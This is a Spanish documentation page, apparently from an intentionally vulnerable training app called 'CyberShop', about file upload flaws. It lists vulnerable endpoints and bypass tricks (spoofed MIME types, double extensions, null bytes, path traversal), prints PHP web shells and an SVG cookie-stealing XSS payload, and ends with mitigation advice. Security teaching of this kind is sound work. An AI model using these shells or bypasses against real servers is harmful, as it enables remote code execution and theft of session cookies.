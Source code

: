 ```yaml
---
layout: default
title: File Upload Vulnerabilities
nav_order: 9
parent: Vulnerabilidades
---
```


# Vulnerabilidades de Subida de Archivos en CyberShop

## Descripción General
Las vulnerabilidades de subida de archivos en CyberShop permiten a los atacantes cargar archivos maliciosos que pueden comprometer la seguridad del servidor. Estas vulnerabilidades están presentes en varios endpoints que permiten la subida de archivos.

## Ubicaciones Vulnerables

### 1. Subida de Avatar de Usuario
- **Endpoint**: `/api/v1/users/avatar`
- **Descripción**: Sin validación adecuada de tipos de archivo
- **Impacto**: Ejecución remota de código (RCE)
- **Ejemplo de Explotación**:
  ```php
  <?php system($_GET['cmd']); ?>
  ```

### 2. Subida de Imágenes de Productos
- **Endpoint**: `/api/v1/products/image`
- **Descripción**: Validación débil de tipo MIME
- **Impacto**: Bypass de validaciones y RCE
- **Ejemplo de Bypass**:
  ```http
  Content-Type: image/jpeg
  [Contenido real: shell.php]
  ```

### 3. Archivos en Chat de Soporte
- **Endpoint**: `/api/v1/support/attachment`
- **Descripción**: Sin validación de extensiones
- **Impacto**: Subida de malware y shells web

## Métodos de Explotación

### 1. Bypass de Validaciones
- Modificación de Content-Type
- Extensiones dobles (.jpg.php)
- Null bytes en nombres (%00)
- Path traversal (../../../shell.php)

### 2. Payloads Comunes
```php
// Shell básica
<?php system($_GET['cmd']); ?>

// Shell avanzada
<?php
if(isset($_POST['cmd'])) {
    echo "<pre>" . shell_exec($_POST['cmd']) . "</pre>";
}
?>
```

### 3. XSS vía SVG
```xml
<svg xmlns="http://www.w3.org/2000/svg">
<script>alert(document.cookie)</script>
</svg>
```

## Mitigación

### 1. Validación de Archivos
- Verificar extensiones permitidas
- Validar tipos MIME reales
- Implementar límites de tamaño
- Sanitizar nombres de archivo

### 2. Almacenamiento Seguro
- Usar directorios fuera del webroot
- Implementar nombres aleatorios
- Establecer permisos restrictivos
- Usar almacenamiento en la nube (S3)

### 3. Procesamiento
- Convertir imágenes a formatos seguros
- Eliminar metadatos
- Implementar antivirus
- Validar contenido real

## Recursos
- [OWASP File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html)
- [PortSwigger File Upload](https://portswigger.net/web-security/file-upload)
